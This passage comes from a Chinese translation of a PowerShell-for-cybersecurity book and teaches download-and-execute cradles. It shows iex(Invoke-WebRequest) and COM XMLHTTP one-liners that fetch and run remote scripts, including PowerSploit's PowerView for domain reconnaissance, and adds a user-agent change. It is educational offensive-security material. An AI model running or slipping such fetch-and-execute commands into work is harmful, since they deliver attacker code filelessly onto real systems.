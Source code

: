 ```
> Invoke-Expression (Invoke-WebRequest -Uri '<url to script>')
> iex(Invoke-WebRequest -Uri '<url to script>')
> iex(Invoke-WebRequest -Uri '<url to script>'); <command from script>}
```

请注意，在此示例中，我们使用`Invoke-WebRequest`下载脚本，但您也可以使用任何其他允许您下载脚本的选项。使用`Invoke-Expression`或其别名`iex`，您可以直接执行脚本。

甚至可以在运行脚本时执行从脚本中导出的命令。

在这个示例中，我们将使用来自`Chapter01`的`HelloWorld.ps1`脚本：[`raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1`](https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1)。

以下示例展示了你如何简单地下载并执行文件：

```
> iex(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1')
```

使用这个示例，你可以下载并执行`PowerView`，直接运行`Get-NetDomain`命令，该命令包含在`PowerView`中：

```
> iex(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1'); Get-NetDomain
```

### 使用 COM 下载并执行文件

你想要通过 COM 对象从互联网下载并执行文件。

#### 解决方案

在这个示例中，我们将使用来自`Chapter01`的`HelloWorld.ps1`脚本：[`raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1`](https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-CyberSecurity/master/Chapter01/HelloWorld.ps1)。

你可以使用以下代码片段来实现你的目标：

```
$Url = "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1"
$HttpRequest = New-Object -ComObject Microsoft.XMLHTTP
$HttpRequest.open('GET', $Url, $false)
$HttpRequest.send()
iex $HttpRequest.responseText
```

你也可以更改请求的用户代理：

```
$HttpRequest.SetRequestHeader("User-Agent", "1337")
```

只需在发送请求之前执行前面的命令——当然，首先修改它以反映你选择的用户代理。
